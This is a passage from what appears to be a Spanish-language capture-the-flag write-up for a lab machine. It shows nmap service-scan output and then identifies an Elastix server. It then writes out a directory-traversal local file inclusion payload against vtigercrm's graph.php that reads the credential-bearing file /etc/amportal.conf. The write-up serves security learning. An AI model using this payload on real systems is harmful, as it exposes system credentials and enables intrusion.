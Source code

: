 ```bash
|_imap-capabilities: ACL CONDSTORE QUOTA OK URLAUTHA0001 IMAP4 LIST-SUBSCRIBED MAILBOX-REFERRALS THREAD=REFERENCES X-NETSCAPE LISTEXT UIDPLUS Completed STARTTLS IMAP4rev1 RENAME BINARY ID RIGHTS=kxte SORT LITERAL+ ANNOTATEMORE THREAD=ORDEREDSUBJECT SORT=MODSEQ NAMESPACE MULTIAPPEND CHILDREN IDLE CATENATE NO ATOMIC UNSELECT
443/tcp   open  ssl/https?
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2017-04-07T08:22:08
|_Not valid after:  2018-04-07T08:22:08
|_ssl-date: 2021-08-30T00:03:16+00:00; +4m41s from scanner time.
878/tcp   open  status     1 (RPC #100024)
993/tcp   open  ssl/imap   Cyrus imapd
|_imap-capabilities: CAPABILITY
995/tcp   open  pop3       Cyrus pop3d
3306/tcp  open  mysql      MySQL (unauthorized)
|_ssl-date: ERROR: Script execution failed (use -d to debug)
|_tls-alpn: ERROR: Script execution failed (use -d to debug)
|_ssl-cert: ERROR: Script execution failed (use -d to debug)
|_tls-nextprotoneg: ERROR: Script execution failed (use -d to debug)
|_sslv2: ERROR: Script execution failed (use -d to debug)
4190/tcp  open  sieve      Cyrus timsieved 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4 (included w/cyrus imap)
4445/tcp  open  upnotifyp?
4559/tcp  open  hylafax    HylaFAX 4.3.10
5038/tcp  open  asterisk   Asterisk Call Manager 1.1
10000/tcp open  http       MiniServ 1.570 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: Hosts:  beep.localdomain, 127.0.0.1, example.com, localhost; OS: Unix

Host script results:
|_clock-skew: 4m40s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 394.30 seconds
```

Obsevamos que se encuentra abierto el puerto 80 el cual redirige hacia el 443, así que tratamos de ver que contiene el servidor. Ingresando a la dirección `https://10.10.10.7/`, observamos el uso de la tecnología **Elastix** e identificamos un exploit público:

[Exploit-db](https://www.exploit-db.com/exploits/37637)

Identificamos un exploit asociado a LFI (Local File Inclusion), debido a que no conocemos la versión con la que está trabajando el sitio web, podriá probar agregando la línea que se indica `/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action` y validar si tenemos la posibilidad de visualizar archivos del sistema; para este caso, el recurso `/etc/amportal.conf`.
